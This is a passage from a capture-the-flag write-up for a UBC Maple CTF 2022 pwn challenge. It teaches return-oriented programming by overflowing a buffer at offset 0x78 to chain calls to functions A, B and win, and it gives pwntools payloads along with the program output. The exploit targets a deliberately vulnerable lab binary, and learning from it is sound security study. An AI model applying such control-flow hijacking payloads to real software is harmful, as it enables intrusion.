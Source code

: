 We can see that we hit the second branch of this if-statement:

```c
if (rawrxd && (uwu && owo)) {
    puts(flag);
} else {
    puts("oh nyo youw e-expwoit has faiwed *sweats*");
}
```

To get the flag, all of `rawrxd`, `uwu`, and `owo` must be true.
To set these variables, we can call `A`, `B`, and `C` before calling the `win` function.

We can chain these functions using a technique called "return-oriented programming".

When a function is called normally, it first pushes the return address onto the stack.
When we jump to a function by overwriting a return address, this doesn't happen.
As a result, our new function will look at the next address on the stack for its return address.
This means we can chain functions by writing multiple return addresses consecutively.

Let's change our payload to call `A`, then `win`:

```py
payload = flat({ 0x78: [p64(exe.sym['A']), p64(exe.sym['win'])] })
```

Using this payload, we get the following output:

```py
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming' stopped with exit code -11 (SIGSEGV) (pid 2184453)
uwu owo rawrxd
uwu
oh nyo youw e-expwoit has faiwed *sweats*
```

We can see that we successfully called `A` as challenge printed an additional "uwu".

Note that `B` has to be called after `A`, so let's call `B` next:

```c
void B() {
    if (uwu) {
        owo = true;
        puts("owo");
    }
}
```

Our payload becomes:

```py
payload = flat({ 0x78: [p64(exe.sym['A']), p64(exe.sym['B']), p64(exe.sym['win'])] })
```

Using this payload, we get the following output:
